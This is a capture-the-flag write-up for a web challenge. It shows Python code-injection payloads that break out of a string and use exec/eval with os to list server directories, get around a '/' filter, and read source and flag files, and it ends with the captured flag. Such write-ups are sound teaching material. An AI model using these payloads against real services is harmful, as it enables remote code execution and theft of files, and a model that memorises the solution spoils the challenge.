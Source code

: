 # Streamlining portal NG (4)

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on [http://user-info-ng.mysterious-delivery.tcc](http://user-info-ng.mysterious-delivery.tcc).

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

## Hints

- Use VPN to get access to the web.

## Solution

The solution is almost the same as it was with [Streamlining portal (3)](04-corporate-websites/01a-streamlining-portal/README.md)

Let's check source code with `" + str(open("/app/app.py").read()) + "`

Oh wait, it is not working.

![not found](not-found.png)

After a while I figured out that if the string contains `/`, then the server returns 404.

Using `" + str(eval(str(exec("import os;x=os")))) + str(x.listdir("app")) + "` we can see that `/app` directory is same as in [Streamlining portal (3)](04-corporate-websites/01a-streamlining-portal/README.md).

![app directory](app-directory.png)

Let's use some of my python knowledge, instead of `app/FLAG` I will use `os.path.join("app", "FLAG")`.

`" + str(eval(str(exec("import os;x=os")))) + str(x.listdir(x.path.join("app", "FLAG"))) + "`

![FLAG directory](app-FLAG-directory.png)

Now just open the `flag.txt` file.

`" + str(eval(str(exec("import os;x=os")))) + str(open(x.path.join("app", "FLAG", "flag.txt")).read()) + "`

![flag](flag.png)

`FLAG{hvIM-3aty-R39h-dOZ4}`
